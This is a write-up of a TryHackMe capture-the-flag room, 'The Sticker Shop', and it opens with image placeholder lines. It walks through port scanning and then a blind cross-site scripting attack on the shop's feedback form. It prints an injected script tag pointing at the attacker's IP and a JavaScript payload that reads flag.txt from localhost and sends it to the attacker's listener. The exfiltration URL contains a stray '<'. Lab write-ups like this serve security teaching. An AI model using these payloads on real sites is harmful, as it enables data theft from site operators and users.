








# The Sticker Shop

https://tryhackme.com/room/thestickershop

## Nmap Scan
First and foremost, we need to use nmap scan to discover the open ports. In this lab, there are 2 open ports, `port 22` and `port 8080`. 




## Web App
This room prompts us to read the content in `http://10.10.12.79:8080/flag.txt`. Try typing it in the address bar. As you can see, the `401 Unauthorized` message is shown on the screen.



Now, try navigating to `http://10.10.12.79:8080/`. We can see the web page of the sticker shop. It has 2 pages, **Home** and **Feedback** page. 



Now we know that there is an input field for us to submit the customer’s feedback. Maybe we can perform some attacks here. This makes me think of XSS. We can try to perform Blind XSS on this page. 



Start a python server first. It will be listening on port 80. Use `sudo python3 -m http.server 80` as the command to develop the server. 



Then inject the payload in the input field. We are using `<script src='http://10.17.25.198/'></script>` as our payload. Now go back to the terminal, we can see that the server is accepting requests.



Now we need to craft a JavaScript payload that fetches the flag from the server’s localhost as they said that the sticker shop hosts everything on the same computer they use for browsing the internet and looking at customer feedback. The payload is shown as below:

```JavaScript
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<10.17.25.198:80/?flag=' + encodeURIComponent(data));
    });
</script>
```



After submitting the payload in the feedback form, go back to the terminal. We can see our HTTP server has captured the flag in the query string of an incoming GET request. 


